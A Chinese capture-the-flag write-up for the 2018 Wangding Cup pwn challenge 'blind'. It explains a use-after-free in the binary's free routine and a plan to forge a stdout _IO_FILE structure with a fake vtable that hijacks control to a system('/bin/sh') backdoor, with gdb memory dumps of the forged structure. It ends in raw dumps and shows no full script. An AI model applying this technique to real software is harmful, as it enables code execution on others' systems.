 # 2018网鼎杯--pwn--blind

题目有三个功能 new change  release 没有提供show，是真瞎啊，瞎子退团吧，我奶不动你

```
1.new
2.change
3.release
4.exit
Choice:
```

checksec：

```
Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

```

没开pie。

打开ida查看：

```c++
unsigned __int64 newnote()
{
  unsigned int v1; // [rsp+Ch] [rbp-24h]
  char s; // [rsp+10h] [rbp-20h]
  unsigned __int64 v3; // [rsp+28h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  printf("Index:");
  memset(&s, 0, 0x10uLL);
  read(0, &s, 0xFuLL);
  v1 = atoi(&s);
  if ( v1 <= 5 && !ptr[v1] )                    // 新建不超过6个
  {
    ptr[v1] = malloc(0x68uLL);                  // 固定大小为0x68
    printf("Content:", &s);
    sub_400932((__int64)ptr[v1], 0x68u);        // 输入范围再0x68以内
    puts("Done!");
  }
  return __readfsqword(0x28u) ^ v3;
}
```

```c++
unsigned __int64 release()
{
  unsigned int v1; // [rsp+Ch] [rbp-24h]
  char s; // [rsp+10h] [rbp-20h]
  unsigned __int64 v3; // [rsp+28h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  printf("Index:");
  memset(&s, 0, 0x10uLL);
  read(0, &s, 0xFuLL);
  v1 = atoi(&s);
  if ( v1 <= 5 && ptr[v1] && dword_602098 <= 2 )
  {
    free(ptr[v1]);
    ++dword_602098;                             // 指针没清空
    puts("Done!");
  }
  return __readfsqword(0x28u) ^ v3;
}
```

可见release没有把指针清空，存在uaf，且块不能新建超过6块，每块规定大小为0x68。

除此之外，我们还发现system的函数。

```c++
int sub_4008E3()
{
  return system("/bin/sh");
}
```



## 利用思路

- 通过uaf拿到bss段地址

- 修改存放在bss上的file指针

  新知识：伪造_IO_FILE结构体

  由于可以在bss段上任意写，所以修改ptr为bss地址，并在bss上伪造stdout的_IO_FILE结构体并伪造一个vtable将原本printf的虚表地址变成后门地址，让stdout地址指向这个结构体，当调用到vtable就可以执行后门函数

  我们平常在应用程序中调用fclose、fputs这些函数的时候系统最终都会通过_IO_jump_t这个函数表指针对函数进行调用（如fclose会调用close函数等）。

  在知道了这一点后，试想如果我们想办法利用其他各种溢出方式覆了应用程序的文件指针，使其指向我们可控区域，在该区域伪造相应的_IO_FILE_plus头（主要是_IO_jump_t表或者是表中函数的指针），最终在程序调用fclose函数或其它函数的时候，就可以控制程序去执行我们想要它执行的地址，control the eip, control the world。
  
  ```
  gdb-peda$ p *stdout
    $1 = {
  _flags = 0xfbad2887, 
  _IO_read_ptr = 0x7f0bb54b46a3 <_IO_2_1_stdout_+131> "\n", 
  _IO_read_end = 0x7f0bb54b46a3 <_IO_2_1_stdout_+131> "\n", 
  _IO_read_base = 0x7f0bb54b46a3 <_IO_2_1_stdout_+131> "\n", 
  _IO_write_base = 0x7f0bb54b46a3 <_IO_2_1_stdout_+131> "\n", 
  _IO_write_ptr = 0x7f0bb54b46a3 <_IO_2_1_stdout_+131> "\n", 
  _IO_write_end = 0x7f0bb54b46a3 <_IO_2_1_stdout_+131> "\n", 
  _IO_buf_base = 0x7f0bb54b46a3 <_IO_2_1_stdout_+131> "\n", 
  _IO_buf_end = 0x7f0bb54b46a4 <_IO_2_1_stdout_+132> "", 
  _IO_save_base = 0x0, 
  _IO_backup_base = 0x0, 
  _IO_save_end = 0x0, 
  _markers = 0x0, 
  _chain = 0x7f0bb54b38e0 <_IO_2_1_stdin_>, 
  _fileno = 0x1, 
  _flags2 = 0x0, 
  _old_offset = 0xffffffffffffffff, 
  _cur_column = 0x0, 
  _vtable_offset = 0x0, 
  _shortbuf = "\n", 
  _lock = 0x7f0bb54b5780 <_IO_stdfile_1_lock>, 
  _offset = 0xffffffffffffffff, 
  _codecvt = 0x0, 
  _wide_data = 0x7f0bb54b37a0 <_IO_wide_data_1>, 
  _freeres_list = 0x0, 
  _freeres_buf = 0x0, 
     __pad5 = 0x0, 
     _mode = 0xffffffff, 
     _unused2 = '\000' <repeats 19 times>
    }

  ```

  比较常见的是利用strcpy，strcat等覆盖了文件指针然后进一步利用。

  (参照https://www.anquanke.com/post/id/84987)
  gdb-peda$ x/30gx 0x602010
0x602010:	0x0000000000000000	0x0000000000000000
0x602020 <stdout>:	0x00007f0bb54b4620	0x0000000000000000
0x602030 <stdin>:	0x00007f0bb54b38e0	0x0000000000000000
0x602040 <stderr>:	0x00007f0bb54b4540	0x0000000000000000
0x602050:	0x0000000000000000	0x0000000000000000
0x602060:	0x0000000001c08010	0x0000000001c08080
0x602070:	0x0000000001c080f0	0x0000000000000000
0x602080:	0x0000000000000000	0x0000000000000000
0x602090:	0x0000000000000000	0x0000000000000002
0x6020a0:	0x0000000000000000	0x0000000000000000


gdb-peda$ x/30gx 0x60201d
0x60201d:	0x0bb54b4620000000	0x000000000000007f
0x60202d:	0x0bb54b38e0000000	0x000000000000007f
0x60203d:	0x0bb54b4540000000	0x000000000000007f
0x60204d:	0x0000000000000000	0x0000000000000000
0x60205d:	0x0001c08010000000	0x0001c08080000000

gdb-peda$ x/30gx 0x602010
0x602010:	0x0000000000000000	0x0000000000000000
0x602020 <stdout>:	0x00007fa7a914b620	0x6161610000000000
0x602030 <stdin>:	0x6161616161616161	0x6161616161616161
0x602040 <stderr>:	0x6161616161616161	0x6161616161616161
0x602050:	0x6161616161616161	0x6161616161616161
0x602060:	0x0000000000602020	0x0000000000602090
0x602070:	0x00000000006020f8	0x0000000000602160
0x602080:	0x00000000006021c8	0x0000000000000000
0x602090:	0x0000000000000000	0x0000000000000002
0x6020a0:	0x0000000000000000	0x0000000000000000

0x602090:	0x00000000fbad8000	0x0000000000602060
0x6020a0:	0x0000000000602060	0x0000000000602060
0x6020b0:	0x0000000000602060	0x0000000000602060
0x6020c0:	0x0000000000602060	0x0000000000602060
0x6020d0:	0x0000000000602061	0x0000000000000000
0x6020e0:	0x0000000000000000	0x0000000000000000
0x6020f0:	0x0000000000000000	0x0000000000602060
0x602100:	0x0000000000000001	0xffffffffffffffff
0x602110:	0x0000000000000000	0x0000000000602060
0x602120:	0xffffffffffffffff	0x0000000000000000
0x602130:	0x0000000000602060	0x0000000000000000
0x602140:	0x0000000000000000	0x0000000000000000
0x602150:	0x00000000ffffffff	0x0000000000000000
0x602160:	0x0000000000000000	0x00000000006021c8
0x602170:	0x0000000000000000	0x0000000000000000
0x602180:	0x0000000000000000	0x0000000000000000
0x602190:	0x0000000000000000	0x0000000000000000
0x6021a0:	0x0000000000000000	0x0000000000000000
0x6021b0:	0x0000000000000000	0x0000000000000000
0x6021c0:	0x0000000000000000	0x6161616161616161
0x6021d0:	0x6161616161616161	0x6161616161616161
0x6021e0:	0x6161616161616161	0x6161616161616161
0x6021f0:	0x6161616161616161	0x6161616161616161
0x602200:	0x6161616161616161	0x6161616161616161
0x602210:	0x6161616161616161	0x08e3616161616161
0x602220:	0x0000000000000040	0x0000000000000000
0x602230:	0x0000000000000000	0x0000000000000000

